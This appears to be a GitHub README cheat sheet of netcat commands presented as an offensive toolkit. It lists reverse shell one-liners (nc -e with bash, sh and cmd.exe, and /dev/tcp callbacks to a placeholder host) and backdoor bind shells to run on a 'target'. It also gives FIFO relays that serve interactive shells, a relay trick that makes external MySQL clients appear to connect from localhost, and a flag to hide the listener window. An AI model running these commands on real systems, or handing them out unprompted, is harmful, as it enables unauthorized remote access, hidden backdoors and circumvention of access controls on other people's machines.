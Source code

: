 # netcat-utils
Useful netcat commands such as Reverse Shells, Port Relays via FIFO, and others stuff.




***





### Listener ###
Listen for inbound connection over TCP. This can be used to receive reverse shell sessions.

To damonize use the `-d` flag, this will hide any GUI window.
```
nc -l -d -v -p [port]
```
---




### Connections ###
Initiate an outbound connection over TCP to a `[host]` which is listening on that `[port]`.
```
nc [host] [port]
```
---



### Reverse Shells ###
Run the following commands on a target which attempt to connect over TCP to the `[host]`. Host must be listening on `[port]`, _see above_.
```
nc [host] [port] -e /bin/bash
nc [host] [port] -e /bin/sh
nc [host] [port] -e cmd.exe
```
---



### Backdoor Shells ###
Same commands as before but in this case the target creates a listener which serves up a shell to anyone connecting on that `[port]`.
```
nc -l -d -p [port] -e /bin/bash
nc -l -d -p [port] -e /bin/sh
nc -l -d -p [port] -e cmd.exe
```
---



### Reverse Shell without Netcat on Target ###
As with the previous reverse shells, the `host` should be listening on the `port` sepecified for the callback to be successful.
```
bash -i >& /dev/tcp/[host]/[port] 0>&1
sh -i >& /dev/tcp/[host]/[port] 0>&1
python -i >& /dev/tcp/[host]/[port] 0>&1
```
---



### Relay / Port Redirection ###

**Create FIFO**

First in First Out, also known as named pipes, created by using `mknod p`. The `p` flag == type FIFO.
```
mknod [pipe-name] p
```

**Relay**

Create a loopback which will relay traffic between `localhost:[Port-A]` and `localhost:[Port-B]` on the target, allowing inbound connections to `localhost:[Port-B]` to be directed at `[Port-A]`.
```
nc -l -d -p [Port-B] 0< [pipe-name] | nc localhost [Port-A] 1> [pipe-name]
```
First netcat is used to create a listener on `[Port-B]` which we will direct Stdin `0<` to the named-pipe. Then forward the output of this listener via the tranditional pipe to the netcat connection to `[Port-A]`. Direct whatever service is listening on `[Port-A]` Stdout `1>` to the named-pipe, which will send the response back through the listener.

**Examples:**

MySQL by default listens on Port 3306, this will fool mysqld into thinking the connecting user is `user@localhost`! Many web apps only permit users from localhost and communicate via loopback connections to backend databases while not exposing the port to the outside; this would bypass that allowing external mysql client sessions that appear to originate from localhost.

Target: `nc -l -d -p [Port-B] 0< [pipe-name] | nc 127.0.0.1 3306 1> [pipe-name]`

Connection: `mysql --port [Port-B] --username=[user] --password=[passwd]`

Unfortunately the default `secure_mysql_installation` option "Prevent root from outside" will still disable `root`@`localhost` to connect in this manor.


FIFO's can also be used to connect to shells.
```
nc -l -d -p [port] 0< [pipe-name] | bash -i 1> [pipe-name]
nc -l -d -p [port] 0< [pipe-name] | sh -i 1> [pipe-name]
nc -l -d -p [port] 0< [pipe-name] | python -i 1> [pipe-name]
```
---



### File Transfer ###
Files can be transmitted across a netcat session using Stdin/Stdout.

Destination: `nc -l -d -p [port] > /path/to/file`

Source: `nc [host] [port] < path/to/file`

